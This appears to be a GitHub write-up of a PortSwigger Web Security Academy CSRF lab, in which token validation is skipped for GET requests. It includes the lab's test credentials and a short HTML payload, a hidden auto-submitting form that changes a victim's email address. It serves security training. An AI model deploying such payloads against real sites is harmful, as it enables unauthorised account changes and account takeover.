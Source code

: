 Title: CSRF where token validation depends on request method
Level: PRACTITIONER
Desc:  This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough: 
Request to change email without csrf token: 
<img width="1336" height="456" alt="image" src="https://github.com/user-attachments/assets/c7af8dbf-d812-466f-9ea5-188078eab42e" />
Request to change email withrout csrf token, but with GET method:
<img width="1174" height="423" alt="image" src="https://github.com/user-attachments/assets/40c747ab-f8fe-42df-be74-dc90ccd46e15" />
So it is possible to send request without csrf token with GET method.

New payload: 
```
<form method="GET" action="https://0a76004d034b4dd980ad03b100280068.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test21@normal-user.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
send to victim.
